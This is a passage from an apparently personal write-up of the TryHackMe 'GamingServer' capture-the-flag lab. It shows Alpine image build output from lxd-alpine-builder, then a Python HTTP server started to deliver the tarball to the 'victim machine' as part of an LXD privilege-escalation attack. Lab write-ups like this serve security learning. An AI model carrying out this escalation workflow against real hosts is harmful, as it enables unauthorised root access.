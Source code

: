 ```highlight
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
Downloading apk-tools-static-2.10.5-r1.apk
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
alpine-devel@lists.alpinelinux.org-4a6a0840.rsa.pub: OK
Verified OK
Selecting mirror http://mirror1.hs-esslingen.de/pub/Mirrors/alpine/v3.12/main
fetch http://mirror1.hs-esslingen.de/pub/Mirrors/alpine/v3.12/main/x86_64/APKINDEX.tar.gz
(1/19) Installing musl (1.1.24-r9)
(2/19) Installing busybox (1.31.1-r19)
Executing busybox-1.31.1-r19.post-install
(3/19) Installing alpine-baselayout (3.2.0-r7)
Executing alpine-baselayout-3.2.0-r7.pre-install
Executing alpine-baselayout-3.2.0-r7.post-install
(4/19) Installing openrc (0.42.1-r11)
Executing openrc-0.42.1-r11.post-install
(5/19) Installing alpine-conf (3.9.0-r1)
(6/19) Installing libcrypto1.1 (1.1.1g-r0)
(7/19) Installing libssl1.1 (1.1.1g-r0)
(8/19) Installing ca-certificates-bundle (20191127-r4)
(9/19) Installing libtls-standalone (2.9.1-r1)
(10/19) Installing ssl_client (1.31.1-r19)
(11/19) Installing zlib (1.2.11-r3)
(12/19) Installing apk-tools (2.10.5-r1)
(13/19) Installing busybox-suid (1.31.1-r19)
(14/19) Installing busybox-initscripts (3.2-r2)
Executing busybox-initscripts-3.2-r2.post-install
(15/19) Installing scanelf (1.2.6-r0)
(16/19) Installing musl-utils (1.1.24-r9)
(17/19) Installing libc-utils (0.7.2-r3)
(18/19) Installing alpine-keys (2.2-r0)
(19/19) Installing alpine-base (3.12.0-r0)
Executing busybox-1.31.1-r19.trigger
OK: 8 MiB in 19 packages
```

I now have a .tar.gz file I can copy on to the victim machine.

```highlight
┌─[root@parrot]─[/home/daz/Documents/TryHackMe/GamingServer/lxd-alpine-builder]
└──╼ #ls
alpine-v3.12-x86_64-20200906_1552.tar.gz  build-alpine  LICENSE  README.md
```

Using Python3 I started a http server.

```highlight
┌─[root@parrot]─[/home/daz/Documents/TryHackMe/GamingServer/lxd-alpine-builder]
└──╼ #python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
